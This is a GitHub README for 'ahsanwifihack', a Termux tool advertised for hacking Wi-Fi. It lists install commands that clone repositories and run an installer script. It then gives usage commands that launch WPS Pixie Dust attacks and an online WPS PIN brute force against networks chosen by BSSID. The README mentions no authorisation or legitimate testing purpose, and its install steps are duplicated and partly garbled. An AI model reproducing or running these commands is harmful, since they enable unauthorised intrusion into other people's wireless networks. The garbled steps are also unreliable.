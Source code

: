 ## ahsanwifihack
### Hack WIfi Using Termux! (Requires Root)



### Installation :

```bash
$ pkg update && pkg upgrade

$ pkg install git python

$ git clone https://github.com/MDAhsanullah/ahsanwifihackmain

$ cd ahsanwifihackmain

$ python Installer.py

$ apt update && apt upgrade

$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/MDAhsanullah/ahsanwifihack

$ cd ahsanwifihack

$ ls
& sudo python ahsanwifihack.py -i wlan0 -K
```

#### Example : `sudo python ahsanwifihack/ahsanwifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ahsanwifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ahsanwifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ahsanwifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
